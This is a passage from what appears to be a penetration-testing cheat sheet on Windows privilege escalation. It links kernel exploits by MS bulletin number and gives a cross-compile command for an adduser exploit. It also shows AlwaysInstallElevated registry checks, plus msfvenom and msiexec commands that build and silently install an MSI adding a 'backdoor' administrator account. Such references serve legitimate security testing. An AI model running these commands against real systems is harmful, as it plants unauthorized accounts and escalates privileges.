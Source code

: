 - [MS17-010](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010) 　[KB4013389]　　[Windows Kernel Mode Drivers]　　(windows 7/2008/2003/XP)
- [MS16-135](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135) 　[KB3199135]　　[Windows Kernel Mode Drivers]　　(2016)
- [MS16-111](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-111) 　[KB3186973]　　[kernel api]　　(Windows 10 10586 (32/64)/8.1)
- [MS16-098](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098) 　[KB3178466]　　[Kernel Driver]　　(Win 8.1)
- [MS16-075](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075) 　[KB3164038]　　[Hot Potato]　　(2003/2008/7/8/2012)
- [MS16-034](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034) 　[KB3143145]　　[Kernel Driver]　　(2008/7/8/10/2012)
- [MS16-032](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032) 　[KB3143141]　　[Secondary Logon Handle]　　(2008/7/8/10/2012)
- [MS16-016](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-016) 　[KB3136041]　　[WebDAV]　　(2008/Vista/7)
- [MS16-014](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-014) 　[K3134228]　　[remote code execution]　　(2008/Vista/7)    
...
- [MS03-026](./MS03-026) 　[KB823980]　　 [Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)  

To cross compile a program from Kali, use the following command.

```powershell
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c
```

## EoP - AlwaysInstallElevated

Check if these registry values are set to "1".

```powershell
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

$ Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
$ Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
```

Then create an MSI package and install it.

```powershell
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

Technique also available in :
* Metasploit : `exploit/windows/local/always_install_elevated`
* PowerUp.ps1 : `Get-RegistryAlwaysInstallElevated`, `Write-UserAddMSI`


## EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.
